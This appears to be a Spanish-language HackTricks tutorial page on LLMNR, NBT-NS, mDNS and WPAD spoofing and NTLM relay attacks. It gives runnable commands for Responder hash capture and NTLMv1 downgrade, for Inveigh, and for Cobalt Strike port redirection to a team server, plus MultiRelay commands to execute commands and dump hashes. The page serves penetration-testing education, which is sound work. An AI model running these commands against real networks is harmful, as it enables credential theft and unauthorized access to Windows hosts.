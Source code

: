 # Suplantación de LLMNR, NBT-NS, mDNS/DNS y WPAD y Ataques de Relevo

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Protocolos de Red

### Protocolos de Resolución de Host Local
- **LLMNR, NBT-NS y mDNS**:
- Microsoft y otros sistemas operativos utilizan LLMNR y NBT-NS para la resolución de nombres locales cuando falla DNS. De manera similar, los sistemas de Apple y Linux utilizan mDNS.
- Estos protocolos son susceptibles a la interceptación y suplantación debido a su naturaleza de difusión no autenticada sobre UDP.
- [Responder](https://github.com/lgandx/Responder) se puede utilizar para suplantar servicios enviando respuestas falsificadas a hosts que consultan estos protocolos.
- Se puede encontrar más información sobre la suplantación de servicios utilizando Responder [aquí](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protocolo de Descubrimiento Automático de Proxy Web (WPAD)
- WPAD permite a los navegadores descubrir la configuración de proxy automáticamente.
- El descubrimiento se facilita a través de DHCP, DNS, o en caso de fallo de DNS, mediante LLMNR y NBT-NS.
- Responder puede automatizar ataques de WPAD, dirigiendo a los clientes a servidores WPAD maliciosos.

### Responder para Envenenamiento de Protocolos
- **Responder** es una herramienta utilizada para envenenar consultas LLMNR, NBT-NS y mDNS, respondiendo selectivamente según los tipos de consulta, apuntando principalmente a servicios SMB.
- Viene preinstalado en Kali Linux, configurable en `/etc/responder/Responder.conf`.
- Responder muestra las hashes capturadas en pantalla y las guarda en el directorio `/usr/share/responder/logs`.
- Es compatible con IPv4 e IPv6.
- La versión de Windows de Responder está disponible [aquí](https://github.com/lgandx/Responder-Windows).

#### Ejecutando Responder
- Para ejecutar Responder con la configuración predeterminada: `responder -I <Interfaz>`
- Para un sondeo más agresivo (con posibles efectos secundarios): `responder -I <Interfaz> -P -r -v`
- Técnicas para capturar desafíos/respuestas NTLMv1 para una descifrado más fácil: `responder -I <Interfaz> --lm --disable-ess`
- La suplantación de WPAD se puede activar con: `responder -I <Interfaz> --wpad`
- Las solicitudes de NetBIOS se pueden resolver a la IP del atacante, y se puede configurar un proxy de autenticación: `responder.py -I <interfaz> -Pv`

### Envenenamiento DHCP con Responder
- La suplantación de respuestas DHCP puede envenenar permanentemente la información de enrutamiento de una víctima, ofreciendo una alternativa más sigilosa al envenenamiento ARP.
- Requiere un conocimiento preciso de la configuración de red del objetivo.
- Para ejecutar el ataque: `./Responder.py -I eth0 -Pdv`
- Este método puede capturar eficazmente hashes NTLMv1/2, pero requiere un manejo cuidadoso para evitar interrupciones en la red.

### Capturando Credenciales con Responder
- Responder suplantará servicios utilizando los protocolos mencionados anteriormente, capturando credenciales (generalmente NTLMv2 Challenge/Response) cuando un usuario intenta autenticarse contra los servicios falsificados.
- Se pueden realizar intentos para degradar a NetNTLMv1 o deshabilitar ESS para facilitar el descifrado de credenciales.

Es crucial tener en cuenta que el uso de estas técnicas debe realizarse de manera legal y ética, asegurando la autorización adecuada y evitando la interrupción o el acceso no autorizado.

## Inveigh

Inveigh es una herramienta para pentesters y equipos de red, diseñada para sistemas Windows. Ofrece funcionalidades similares a Responder, realizando suplantaciones y ataques de intermediario. La herramienta ha evolucionado desde un script de PowerShell a un binario de C#, con [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) y [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) como las principales versiones. Se pueden encontrar parámetros detallados e instrucciones en la [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh se puede operar a través de PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
O ejecutado como un binario de C#:
```bash
Inveigh.exe
```
### Ataque de Relevo NTLM

Este ataque aprovecha sesiones de autenticación SMB para acceder a una máquina objetivo, otorgando un shell del sistema si tiene éxito. Los requisitos clave incluyen:
- El usuario autenticado debe tener acceso de Administrador Local en el host de retransmisión.
- La firma SMB debe estar deshabilitada.

#### Reenvío y Túneles de Puerto 445

En escenarios donde la introducción directa a la red no es factible, el tráfico en el puerto 445 debe ser reenviado y tunelizado. Herramientas como [**PortBender**](https://github.com/praetorian-inc/PortBender) ayudan a redirigir el tráfico del puerto 445 a otro puerto, lo cual es esencial cuando se dispone de acceso de administrador local para la carga de controladores.

Configuración y operación de PortBender en Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Otras Herramientas para Ataque de Relevo NTLM

- **Metasploit**: Configurado con proxies, detalles del host local y remoto.
- **smbrelayx**: Un script en Python para relé de sesiones SMB y ejecutar comandos o desplegar puertas traseras.
- **MultiRelay**: Una herramienta de la suite Responder para relé de usuarios específicos o todos los usuarios, ejecutar comandos o volcar hashes.

Cada herramienta se puede configurar para operar a través de un proxy SOCKS si es necesario, permitiendo ataques incluso con acceso de red indirecto.

### Operación de MultiRelay

MultiRelay se ejecuta desde el directorio _**/usr/share/responder/tools**_, apuntando a IPs o usuarios específicos.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Forzar Inicios de Sesión NTLM

En Windows **puede ser posible forzar a algunas cuentas privilegiadas a autenticarse en máquinas arbitrarias**. Lee la siguiente página para aprender cómo:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Referencias
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
